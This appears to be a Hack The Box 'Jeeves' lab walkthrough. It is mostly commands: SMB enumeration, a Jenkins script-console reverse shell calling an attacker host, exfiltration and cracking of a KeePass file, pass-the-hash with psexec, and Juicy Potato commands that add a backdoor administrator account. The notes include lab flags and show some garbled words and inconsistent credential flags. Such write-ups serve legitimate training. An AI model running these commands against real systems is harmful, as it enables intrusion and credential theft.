 **Skills Required**
● Intermediate knowledge of Windows
● Knowledge of basic web fuzzing
techniques
**Skills Learned**
● Obtaining shell through Jenkins
● Techniques for bypassing Windows
Defender
● Pass-the-hash attacks
● Enumerating alternate data streams


Crackmapexec, smbmap, Web Fuzzing, Jenkins, Pass-the-Hash Attack, KeePass, Juicy Potato Privilege Escalation, Alternative Data Streams.
keepass2john, john (John the Ripper)



**Concepts:**
- **Port 445 (SMB):**
  - Port 445 is a network protocol port commonly used for SMB (Server Message Block) communication. It's essential for file and printer sharing on Windows networks.

**Commands:**
1. **Using crackmapexec to Gather Information:**
   - Use `crackmapexec` to gather information about the target machine via SMB.
   ```bash
   crackmapexec smb 10.10.10.63
   ```

2. **Listing Shared Resources with smbmap:**
   - Attempt to list shared network resources on the machine using `smbmap`. An 'Authentication error' indicates the need for valid credentials.
   ```bash
   smbmap -H 10.10.10.63 -u 'null'
   ```

3. **Web Fuzzing with wfuzz:**
   - As SMB is exposed, explore web services on port 50000 using `wfuzz`.
   ```bash
   wfuzz -c --hc=404 -t 200 -w /wordlist -u http://10.10.10.63:50000/FUZZ
   ```

4. **Discovering Jenkins and Scripting:**
   - Identify an exposed Jenkins instance, known to be vulnerable due to enabled script consoles.
   - Exploit it to gain access.
   ```bash
   # On your machine
   smbserver smbFolder $(pwd) -smb2support
   # On the victim machine (execute in Jenkins script console)
   println "\\\\10.10.14.2\\smbFolder\\nc64.exe -e cmd 10.10.14.2 1234".execute().text
   # Back on your machine
   rlwrap nc -nlvp 1234
   ```

5. **Privilege Escalation - Finding a KeePass File:**
   - While examining user directories, find a .kdbx file, likely from KeePass.
   - Transfer it to your machine using your shared folder.
   ```bash
   # Victim machine
   copy CEH.kdbx \\10.10.14.8\smbFolder\CEH.kdbx
   ```

6. **Cracking KeePass Password:**
   - Use `keepass2john` to extract the password hash from the KeePass file.
   - Crack the hash using John the Ripper with a wordlist.
   ```bash
   keepass2john CEH.kdbx > hash
   john --wordlist=../../../wordlist/rockyou.txt hash
   ```

7. **Pass-the-Hash Attack:**
   - Verify if the cracked hash belongs to the 'Administrator' using `crackmapexec`. If it returns 'Pwn3d!,' it's valid.
   ```bash
   crackmapexec smb 10.10.10.63 -u 'Administrator' -H ':hash' -d jeeves.local
   ```

8. **Using psexec for Access:**
   - Exploit the pass the hash vulnerability with `psexec` to gain access as the Administrator.
   ```bash
   psexec WORKGROUP/Administrator@10.10.10.63 -hashes :hash
   ```

9. **Alternative Method - Privilege Check:**
   - Check the user's privileges using `whoami /priv`. If the user has 'SeImpersonatePrivilege,' consider using Juicy Potato.

10. **Juicy Potato Privilege Escalation:**
    - Download Juicy Potato and transfer it to the victim machine using your shared folder. https://github.com/ohpe/juicy-potato/releases/tag/v0.1
    ```bash
    # On your machine
    smbserver smbFolder $(pwd) -smb2support
    copy \\10.10.14.29\smbFolder\juicypotato.exe jp.exe
    ```
    - Execute Juicy Potato to create a new user with administrator privileges.
    ```bash
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user kvzlx Skinheadoi1216@ /add" -l 1337
    JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators" -l 1337
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
    ```
    - Confirm the user's validity with `crackmapexec`.
    ```bash
    crackmapexec smb 10.10.10.63 -u 'kvzlx' -H 'Skinheadoi1216@'
    ```
11. **Access with the New User:**
    - Use `psexec` to access the system with the new user.
    ```bash
    psexec WORKGROUP/kvzlx@10.10.10.63 cmd.exe
    ```

12. **Root Flag Retrieval:**
    - To obtain the root flag, explore alternative data streams using the `dir /r /s` command.
    - View the flag with `more < hm.txt:root.txt`.

**Explanation of "Alternative Data Streams":**
In Windows, alternative data streams are a feature that allows files to have additional data attached to them beyond their main content. This feature is often used for legitimate purposes, but it can also be exploited by attackers to hide information or execute malicious code.

user e3232272596fb47950d59c4cf1e7066a
root afbc5bd4b615a60648cec41c6ac92530


```bash
*Video*

If you are compromising a Windows machine Check the user's privileges using "whoami /priv". 
If the user has 'SeimpersonatePrivilege', consider using Juicy Potato.  
  
- Download Juicy Potato and transfer it to the victim machine using your shared folder.  
  With Impacket-smbserver, we create a network-level shared resource identified by the name you choose, which is synchronized with the current working directory and supports SMB version 2

   impacket-smbserver smbJuicy $(pwd) -smb2support  
  
[#On](https://www.linkedin.com/feed/hashtag/?keywords=on&highlightedUpdateUrns=urn%3Ali%3Aactivity%3A7104799306024382465) 
Now, on the victim machine, we copy Juicy Potato using the previously created shared resource.
   copy \\your_ip\smbJuicy\JuicyPotato.exe JuicyPotato.exe  
  
- Execute Juicy Potato to create a new user with administrator privileges.  
- Utilize Juicy Potato with the "-t *" parameter to employ "CreateProcessWithTokenW and CreateProcessAsUser."
	- Employ the "-p" parameter to specify that you want to yudalaz "cmd" to execute a command and control the desaierd command.
- Use the "-a" parameter to pass the command you wish to execute as an argument.
- In this case, the desired command is "net user" to create a new user on the system.
  
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user kvzlx potato1234@ /add" -l 1337  

- ANext, add the new user to the local administrators group on the machine using "net localgroup.
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators kvzlx /add" -l 1337

- Now, modify the "LocalAccountTokenFilterPolicy" registry entry.
  JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337  

- Finally, ensure everything works by creating a network-level shared resource and granting full privileges to all users in the administrators group over this shared resource that you've created.
  
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337  
  
- Confirm the user's validity with `crackmapexec`.  
  
   crackmapexec smb  10.10.10.63-u 'kvzlx' -H 'potato1234@'  
  
- Use `psexec` to access the system with the new user.  
   psexec WORKGROUP/kvzlx@10.10.10.63 cmd.exe

```